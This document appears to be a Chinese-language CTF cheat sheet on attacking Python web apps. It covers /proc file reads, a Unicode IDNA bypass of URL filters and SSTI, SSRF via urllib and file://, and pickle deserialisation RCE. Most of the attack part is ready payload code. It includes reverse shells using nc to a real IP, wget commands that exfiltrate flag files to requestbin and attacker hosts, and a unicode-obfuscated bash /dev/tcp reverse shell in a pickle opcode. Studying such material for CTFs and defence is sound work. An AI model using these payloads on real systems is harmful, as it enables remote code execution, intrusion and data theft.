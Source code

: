 程序目录可能：/app/appy.py
环境变量：/proc/self/environ 里面可能有工作目录PWD
程序启动命令：/proc/self/cmdline

## **python打开文件但是没有关闭**
python打开文件但是没有关闭，任然可以读取文件内容。
```
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```
可以通过/proc/self/fd/[num]访问对应文件（此处[num]代表一个未知的数值，需要从0开始遍历找出）
如在/proc/self/fd/3找到。
<https://blog.csdn.net/cjdgg/article/details/119860355?spm=1001.2014.3001.5502>

^
## **url中的unicode漏洞**
```
℆这个字符在经过
for h in host.split('.'):
      newhost.append(h.encode('idna').decode('utf-8'))
处理后变成c/u

以及ℂ变成c等

︷︸变成{} 可以用于ssti注入
```
ssti绕过替换
```
"""
{ -> ︷/﹛
} -> ︸/﹜
' -> ＇
, -> ，
" -> ＂
"""
//此时的str即你要输入的payload
str = '''{{a.__init__.__globals__.__builtins__.eval("__import__('os').popen('ls').read()")}}''' # 原字符串
# 如果需要替换replace(被替换的字符,替换后的字符)
str = str.replace('{', '︷')
str = str.replace('}', '︸')
str = str.replace('\'', '＇')
str = str.replace('\"', '＂')

print(str)
```

于是传入url=file://suctf.cc/etc/passwd
可以变成传入url=file://suℂtf.cc/etc/passwd绕过过滤，最终又变回来
>非预期这个也可绕过：url=file:////suctf.cc/etc/passwd
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"


    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host


    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()   #http读网站，file读本地文件
    else:
        return "我扌 your problem? 333"
```

^
## **字符绕过**
如果判断是：
if "scan" in self.action:
则action中含有scan字符即可通过。
一般是两种字符按顺序拼接一起可以绕过多个判断，如xx+readscan ，xxread+scan

^
## **请求参数**
flask：
param = urllib.unquote(request.args.get("param", ""))
获取param参数值，如果没有默认为第二个空。

^
## **读文件**
tmpfile = open("./%s" % self.sandbox, 'w')

^
get请求读远程网址中文件前50字节，可能造成ssrf：
urllib.urlopen(param).read()[:50]
使用urllib.urlopen(param) 包含文件，可以直接填写文件路径`./flag.txt`，也可以使用伪协议。

本地文件读取协议:
fie://
local-file://绝对路径 或 local-file://flag.txt
gopher://



^
## **python反序列化**
python中反序列化的库主要有两个，`pickle`和`cPickle`，这俩除了运行效率上有区别外，其他没啥区别
和php一样不光能序列化字符串，也可以序列化数组，字典，类


`pickle`的常用方法有
```
import pickle

a_list = ['a','b','c']

# pickle构造出的字符串，有很多个版本。在dumps或loads时，可以用Protocol参数指定协议版本，例如指定为0号版本
# 目前这些协议有0,2,3,4号版本，默认为3号版本。这所有版本中，0号版本是人类最可读的；
# 之后的版本加入了一大堆不可打印字符，不过这些新加的东西都只是为了优化，本质上没有太大的改动。
# 一个好消息是，pickle协议是向前兼容的。0号版本的字符串可以直接交给pickle.loads()，不用担心引发什么意外。
# pickle.dumps将对象序列化为字符串
# pickle.dump将序列化后的字符串存储为文件
print(pickle.dumps(a_list,protocol=0))

pickle.loads() #对象反序列化
pickle.load() #对象反序列化，从文件中读取数据
```


ctf中大多数常见的pickle反序列化，利用方法大都是`__reduce__`，实现RCE。
`__reduce__`这个魔术方法，这个魔术方法简单的来说可php的`__wakeup`差不多,就是在被序列化的时候告诉系统如何运行，
他的返回值第一个参数是函数名，第二个参数是一个tuple，为第一个函数的参数。
稍微有点区别在于我们能够控制里面的内容，而php的`__wakeup`则是目标环境写死的，说明python反序列化更加自由一些


```
# -*- coding: utf-8 -*-
# python2代码
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a) 
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```

```
# Python 3代码
import pickle
import urllib.parse

class payload:
    def __reduce__(self):
        return (eval, ("open('flag.txt', 'r').read()",))

# Python 3中pickle.dumps()返回的是bytes类型，不需要urllib.quote进行编码
a = pickle.dumps(payload())

# Python 3中urllib.quote函数在urllib.parse模块中
a_quoted = urllib.parse.quote(a)  # 这里对bytes类型进行编码可能不是必要的
print(a_quoted)
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```

反弹shell
```
import pickle
import base64

class rce():
    def __reduce__(self):
        return (eval,("__import__('os').popen('nc ip port -e /bin/sh').read()"))
    
c=rce()
c=pickle.dumps(c)
print(base64.b64encode(c))
```

其他利用
```
return (os.popen,('nc 1.92.88.247 2333 -e /bin/sh',))#此处需要nc
return (os.popen,('wget http://ip:port/`cat f*`'))
return (os.system, ('wget http://requestbin.net/r/duwbu270?a=`cat fla*`',))
```


^
#### **有过滤**
```
import pickle
import pickletools
import base64

# 有过滤，不让生成的序列化串有i等字符

opcode=b'''(S"key"
S"val"
dS"exp"
(cos
system
V\u0062\u0061\u0073\u0068\u0020\u002D\u0063\u0020\u0027\u0062\u0061\u0073\u0068\u0020\u002D\u0069\u0020\u003E\u0026\u0020\u002F\u0064\u0065\u0076\u002F\u0074\u0063\u0070\u002F\u006E\u0067\u0072\u006F\u006B\u002E\u0078\u0069\u0061\u006F\u006D\u0069\u0071\u0069\u0075\u0031\u0032\u0033\u002E\u0074\u006F\u0070\u002F\u0031\u0037\u0031\u0037\u0032\u0020\u0030\u003E\u0026\u0031\u0027
os.'''
pickletools.dis(opcode)
print(base64.b64encode(opcode)) #对反弹shell进行unicode即可。
```
![](.topwrite/assets/image_1736578398139.png)
参考：<https://blog.csdn.net/your_friends/article/details/126979899>